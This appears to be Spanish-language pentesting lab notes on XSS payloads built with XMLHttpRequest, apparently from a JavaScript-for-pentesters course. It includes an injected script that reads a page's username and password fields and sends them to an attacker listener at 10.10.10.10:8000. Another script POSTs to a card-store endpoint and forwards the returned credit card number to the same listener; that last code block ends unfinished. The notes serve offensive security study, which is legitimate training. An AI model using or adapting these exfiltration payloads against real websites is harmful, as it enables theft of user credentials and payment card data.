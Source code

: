 ### POSTING DATA WITH XMLHttpRequest

podemos enviarnos data por GET o cualquier otro verbo usando XMLHttpRequest tambien. el ejemplo anterior con esta sintaxis seria:

```html
<script>
	let username = document.forms[0].elements[0].value;
	let password = document.forms[0].elements[1].value;
    window.setTimeout(() => {
		
    	let req = XMLHttpRequest();
    	req.open("GET", "http://10.10.10.10:8000/?username="+username+"&password="+password, true); //true para que sea asincrono
    	req.send()
    }, 5000); 
</script>
```

### FETCHING DATA WITH XMLHttpRequest 

Imaginemos que a partir de un GET a esta ruta: **/lab/webapp/jfp/14/email?name=john** te retorna el email de **john**, queremos colocar la respuesta en un elemento existente con ID result

```html
<script>
	let req = new XMLHttpRequest();

	req.onreadystatechange = ()=>{
		//si hay respuesta exitosa
		if(request.readyState == 4 && req.status == 200)
		{
			//solo devuleve el correo como tal, sin estructura HTML, XML o JSON
			//colocamos al elemento con id = result
			document.getElementById("result").innerHTML=req.responseText;
		}
	};

	req.open("GET","/lab/webapp/jfp/14/email?name=john",true);
	req.send();
</script>
```

tambien podemos crear un elemento y agregarlo en el DOM con ese valor. Solo es cuestion de imaginar.

### DATA EXFILTRATION WITH XMLHttpRequest

vamos a ver como a partir de una peticion POST que nos devuelve un numero de tarjeta de credito podemos exfiltrar esa informacion a nuestro servidor en python.
La ruta **http://pentesteracademylab.appspot.com/lab/webapp/jfp/15/cardstore** devulve un numero de tarjeta cuando se le pasa el parametro **user=john** por POST.

```html
<script>
	let req1 = new XMLHttpRequest();

	req1.open("POST","http://pentesteracademylab.appspot.com/lab/webapp/jfp/15/cardstore",true);
	req1.setRequestHeader('Content-type', 'application/x-www-form-urlencoded');

	req1.load = ()=>{
		let req2 = new XMLHttpRequest();
		req2.open("GET","http://10.10.10.10:8000/?card="+req1.responseText,true);
		req2.send();
	};
	
```